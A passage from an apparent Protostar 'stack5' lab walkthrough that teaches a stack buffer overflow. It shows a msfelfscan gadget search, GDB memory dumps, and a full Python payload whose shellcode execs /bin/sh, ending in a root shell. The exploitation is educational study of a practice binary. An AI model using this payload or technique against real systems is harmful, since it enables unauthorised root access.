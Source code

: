 However, we now face a problem where we do not know the exact memory location
of `$esp + 0x10` to overwrite `$eip` with. Simply using the value we see in GDB
is not reliable as the exact memory address on the stack can change depending
on how the binary is loaded.

We see that the memory location we want to jump to is actually loaded into
`$eax` during execution. So, if we can locate a `jmp $eax` instruction at a
static location in the program's address space, we can point `$eip` to that
location to execute our shellcode.

```
0x080483cd <main+9>:    lea    0x10(%esp),%eax
```

There are many tools to find such "gadgets" in the program's address space. We
will use `msfelfscan` for this example (you can find a copy at
`/usr/share/framework2/msfelfscan` on Kali Linux).

```shell
$ /usr/share/framework2/msfelfscan -f stack5 -j eax
0x080483bf   call eax
0x0804846b   call eax
```

Placing our shellcode at the start of the buffer and replacing "BBBB" with the
memory address of our `call eax` instruction, we get the following payload.

```shell
user@protostar:~$ python -c "print '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 21 + '\xbf\x83\x04\x08'" | /opt/protostar/bin/stack5
Segmentation fault
```

Looking in GDB, we see that the last 11 bytes of our shellcode was overwritten
during execution. This is a result of the `push` instructions in the shellcode
writing values onto the stack.

```
(gdb) x/20x 0xbffff740
0xbffff740:     0xdb31c031      0x80cd06b0      0x742f6853      0x2f687974
0xbffff750:     0x89766564      0x66c931e3      0xb02712b9      0x3180cd05
0xbffff760:     0x2f6850c0      0x6868732f      0x6e69622f      0xbffff774
0xbffff770:     0x00000000      0x6e69622f      0x68732f2f      0x00000000
0xbffff780:     0x7665642f      0x7974742f      0x00000000      0x080483c1
```

We can fix this by adding a `add $0x10, $esp` instruction to our shellcode to
expand the stack. The instruction translates to `\x83\xc4\x10` in machine code.
Modifying our payload, we end up with a successful exploit.

```shell
user@protostar:~$ python -c "print '\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 18 + '\xbf\x83\x04\x08'" | /opt/protostar/bin/stack5
# whoami
root
```
